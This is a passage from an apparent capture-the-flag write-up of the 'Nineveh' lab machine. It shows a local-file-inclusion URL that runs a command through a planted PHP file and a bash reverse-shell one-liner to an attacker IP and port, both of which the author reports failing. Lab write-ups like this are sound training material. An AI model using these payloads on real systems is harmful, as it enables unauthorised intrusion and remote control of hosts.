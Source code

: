 Now, go to table1 and insert a field, there is no need to change something:

![Untitled](/assets/images/2021-11-10-nineveh/Untitled7.png)

Now, I visit the URL [http://nineveh.htb/view.php?page=/var/tmp/hack.php&cmd=id](http://nineveh.htb/view.php?page=/var/tmp/hack.php&cmd=id). But that did not really work. So I try to use another reverse shell:

```bash
bash -i >& /dev/tcp/10.10.17.28/4444 0>&1
```

![Untitled](/assets/images/2021-11-10-nineveh/Untitled8.png)

That did also not work. So I need to change something. I go back to the notes section and change the filename there:

